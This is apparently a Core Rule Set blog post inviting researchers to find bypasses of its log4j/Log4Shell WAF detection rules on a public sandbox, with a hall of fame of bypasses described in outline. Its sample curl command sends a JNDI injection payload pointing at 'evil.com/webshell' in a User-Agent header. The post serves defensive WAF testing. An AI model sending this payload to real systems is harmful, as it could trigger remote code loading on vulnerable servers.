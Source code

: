 ```yaml
---
author: dune73
categories:
  - Blog
date: '2021-12-16T13:01:59+01:00'
guid: https://coreruleset.org/?p=1564
id: 1564
permalink: /20211216/public-hunt-for-log4j-log4shell-evasions-waf-bypasses/
title: Public Hunt for log4j / log4shell Evasions / WAF Bypasses
url: /2021/12/16/public-hunt-for-log4j-log4shell-evasions-waf-bypasses/
---
```



We have been updating our detection for the infamous CVE-2021-44228 vulnerability and its siblings for several days now. With the new experimental rule 1005, we think we really have decent detection capabilities now. Read up on this development in the separate blog post [CRS and Log4j / Log4Shell / CVE-2021-44228](https://coreruleset.org/20211213/crs-and-log4j-log4shell-cve-2021-44228/).  
  
Right before the log4j CVE was published, we took up our [CRS Sandbox](https://coreruleset.org/20211209/introducing-the-crs-sandbox/) that lets you test payloads against various CRS installations.  
  
We have now combined the [](https://coreruleset.org/20211209/introducing-the-crs-sandbox/)CRS Sandbox and the log4j detection to give you access to a live system with our new rule 1005 (and the expanded 932130). Successful bypasses will be listed in the Hall-of-Fame below.

#### How test my bypass?

```
<pre class="wp-block-preformatted">$ curl -H 'x-crs-version: 3.4.0-dev-log4j' -H 'x-format-output: txt-matched-rules' -H 'User-Agent: ${jndi:ldap://evil.com/webshell}' https://sandbox.coreruleset.org/
```

The important bit is the custom HTTP header `x-crs-version: 3.4.0-dev-log4j`:[ ](<x-crs-version: 3.4.0-dev-log4j>)With this version string you get onto our new instance that carries the latest versions of the log4j attack detection. The other instances are vanilla CRS tags. They won't get the new rules / capabilities until we do a new release (and given we're usually not add new rules to existing stable releases in order to avoid introducing new false positives, this won't be anytime soon).

#### Rules to get into the Hall-of-Fame

You need to do three things:

- You need to pull off a bypass against the sandbox.
- You need to tell us about the bypass by submitting your payload via mail to security at coreruleset.org.
- You need to declare that this is in fact a working exploit.

We do not have the capacity to determine whether bypasses actually work as an exploit against log4j. So we kind of need to take your word for it.

If somebody in the community has the knowledge and the capacity to support us with this discussion, then please get in touch.

#### Hall-of-Fame

- Dominik Strecker, Syracom Schweiz AG : *Bypass via an XML attribute due to broken XPath selector in our rule 1005.*

##### Honorary mentions

- *Denis Augsburger ([@denisaugsburger](https://twitter.com/denisaugsburger)), TWTeam Switzerland : Bypass of rule 1005 with a spectacular evasion, that was detected by extended rule 932130*
- *Matej Sustr, Slovakia: Bypass of rule 1005 with an alternative evasion to Denis Augsburger's bypass, also detected by rule 932130*.
- *Matej Sustr, Slovakia: Bypass of rule set with an interesting evasion that depends on server side decoding before hitting log4j*.

Denis Augsburger has found a way around 1005 and we might have to update the rule. The problem is that his evasion is exploiting a fundamental mis-conception of our rule. We still think we are on the safe side thanks to 932130, but investigation continues.

The 2nd bypass of Matej Sustr is also very interesting because it goes undetected entirely. It exploit a vanilla log4j, though. It takes a special use case where Java code decodes the payloads before sending it to log4j.

#### Changelog

2021-12-16 12:30 CET: Published  
2021-12-20 10:30 CET: Added Dominik Strecker to hall of fame  
2021-12-20 14:00 CET: Added Syracom Schweiz AG to Dominik's name  
2021-12-23 16:40 CET: Added Denis Augsburger, TWTeam, under Honorary mentions  
2022-01-07 14:30 CET: Added Matej Sustr under Honorary mentions
